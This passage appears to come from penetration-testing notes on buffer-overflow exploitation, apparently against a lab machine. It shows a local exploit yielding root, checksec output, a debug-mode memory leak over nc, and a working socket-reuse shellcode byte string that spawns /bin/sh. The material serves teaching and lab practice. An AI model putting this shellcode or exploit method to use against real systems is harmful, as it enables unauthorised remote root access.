 * **Explotation**

Finally we just need to transfer the file to the target machine and executed

```text
❯ ./rop $(python /tmp/exploit.py)

# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

### Stack-Based \(Remotely\)

Same as `Ret2Libc`  we need to control the EIP. When we successfuly control the EIP we need to check which security is enabled:

```text
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
```

We can see that PIE is enabled which stands for Position Independent Executable. This means that the memory locations will change every time you run the application. This makes exploiting buffer overflows harder. However, in that example of BoF there was a DEBUG parameter that gave us the location of the buffer overflow-able field. 

```text
❯ nc 10.10.10.34 7411
OK Ready. Send USER command.
DEBUG
OK DEBUG mode on.
USER admin
OK Send PASS command.
PASS admin
Debug: userpass buffer @ 0xffffd610
Incorrect username and/or password.
ERR Authentication failed.
```

#### Socket Re-Use

Instead of spawning a reverse shell that maybe give problems to us with bad characters we can re-use the open socket.

The following shellcode works to re-use the socket.

```text
buf=b""
buf+=b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
buf+=b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
buf+=b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
buf+=b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
buf+=b"\x89\xe3\x31\xc9\xcd\x80";
```
